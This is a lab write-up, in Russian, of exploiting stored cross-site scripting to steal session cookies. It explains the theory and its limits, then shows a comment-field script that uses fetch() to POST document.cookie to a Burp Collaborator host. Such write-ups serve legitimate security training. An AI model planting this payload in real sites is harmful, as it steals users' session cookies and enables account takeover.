






# Exploiting cross-site scripting to steal cookies

## Theory

<h3>Использование межсайтового скриптинга для кражи файлов cookie</h3>

Кража файлов cookie — это традиционный способ использования XSS. Большинство веб-приложений используют файлы cookie для обработки сеансов. Вы можете использовать уязвимости межсайтового скриптинга, чтобы отправлять файлы cookie жертвы в свой собственный домен, а затем вручную вставлять файлы cookie в браузер и выдавать себя за жертву.

На практике этот подход имеет ряд существенных ограничений:
* Жертва может не войти в систему
* Многие приложения скрывают свои файлы cookie от JavaScript, используя флаг HttpOnly
* Сеансы могут быть заблокированы для дополнительных факторов, таких как IP-адрес пользователя
* Время сеанса может истечь, прежде чем вы сможете его перехватить.

## Writeup

Главная страница:



Перейдем к посту и спустимся в низ страницы. Мы можем заметить поле для комментария.



Запустим Burp Collaborator Client и скопируем DNS.



Запишем в поле комментария наш эксплоит, вставив скопированный ранее DNS. Код эксплоита:
```
<script>
fetch('https://0ghj9u6w3z0rm7ezz40rp8iplgr8fx.burpcollaborator.net', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```



Проверим Burl Collaborator Client. Там мы можем обнаружить cookie.



Получаем ответ от сервера.

